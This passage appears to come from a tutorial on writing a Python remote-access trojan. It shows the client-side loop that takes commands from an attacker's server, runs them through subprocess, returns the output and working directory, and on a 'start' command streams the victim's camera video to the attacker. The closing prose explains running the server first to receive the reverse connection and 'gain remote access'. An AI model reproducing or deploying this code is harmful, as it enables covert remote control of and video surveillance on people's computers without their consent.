 while True:
    # receive the command from the server.
    command = s.recv(BUFFER_SIZE).decode()
    splited_command = command.split()
    if command.lower() == "exit":
        # if the command is exit, just break out of the loop.
        break
    elif command.lower() == "start":
        # Start recording video in a separate thread
        recording_thread = threading.Thread(target=record_video)
        recording_thread.start()
        output = "Video recording started."
        print(output)
    else:
        # execute the command and retrieve the results.
        output = subprocess.getoutput(command)
        # get the current working directory as output.
        cwd = os.getcwd()
        # send the results back to the server.
        message = f"{output}{SEPARATOR}{cwd}"
        s.send(message.encode())
# close client connection.
s.close()

This part of the code handles the video recording and command execution on the client side:

    The record_video() function captures video frames from the client's camera, encodes them, and continuously sends them to the server (for the attacker to stream).
    The main loop receives commands from the server. If the command is "exit", the loop breaks. If the command is "start", a separate thread is created to execute the record_video() function and start the video recording. For any other command, the client executes the command using subprocess.getoutput(), gets the current working directory, and sends the output back to the server.
    Finally, the client closes the socket connection to the server.

 
Running our Programs

Now, we're done with the client and server code. Let's run it. To execute these programs, you have to be very careful. You need to make sure the server_side.py is running before you run the client.py. Remember I said we would get a reverse connection from the client. So we have to listen to the connection first. Otherwise, even if the program is executed on the client side, we won't gain remote access.
